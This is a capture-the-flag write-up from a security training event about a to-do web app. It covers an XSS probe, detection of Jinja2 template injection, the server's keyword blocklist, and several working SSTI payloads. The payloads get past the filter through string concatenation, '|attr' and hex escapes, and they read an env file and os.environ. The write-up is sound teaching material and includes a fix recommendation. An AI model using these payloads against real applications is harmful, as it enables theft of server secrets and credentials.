




# to-do app (BKSEC Training 2026)
---
## Overview
The webapp has only one function is that get user input and returns it in a new line as a task

## Reconnaissance

Try with xss, and it works !!!!

```javascript
<script>alert()</script>
```


Try with SSTI recon as per PayloadAllTheThings


For `${7*7}`, it fails


For `{{7*7}}`, it works


For `{{7*'7'}}`, it works, confirms jinja2 (hopefully)



Try with payload to read environment variables, server detects and blocks.



After a while, I figure our that server block these keywords (may not cover all but somehow almost):` __ (double underscore), config, class, os, import, self`

Not block: `mro, globals, open, _, [], ' ', " ", builtins, init, read`
### Vulnerability

Server employ jinja2 rendering template. Although dev has intentionally blocked dangerous keyword but that's not enough.

Dev should use `render_template` instead of `render_template_string` or use other technique which consider user input and string, not part of jinja structure.
## Exploitation

There are many payload, I show 2 notable ones:

1) `~` Concatenate string bypasses keyword filter
- `{{ (url_for|attr('_'~'_globals_'~'_'))['_'~'_builtins_'~'_']['open']('env')|attr('read')() }}`

which is `{{url_for.__globals__.__builtins__.open('env').read()}}`


Using `~` to concatenate strings, `|attr` replace `.`

- `{{url_for|attr('_'~'_globals_'~'_')|attr('_'~'_getitem_'~'_')('o'~'s')|attr('environ')}}`

which is `{{url_for.__globals__[os].environ}}`

Or you can also repplace `url_for` by `lipsum` which is also a core function, always being loaded and has `__globals__` attribute.


2) Hex encode blocked keywords

- `{{lipsum['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x6f\x73'].environ}}`

which is `{{lipsum.__globals__[os].environ}}`

- `{{lipsum['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x6f\x73']['\x65\x6e\x76\x69\x72\x6f\x6e']}}`



> Flag: ***BKSEC{3b58eac6abce4275_96e6154ceb2b699e}***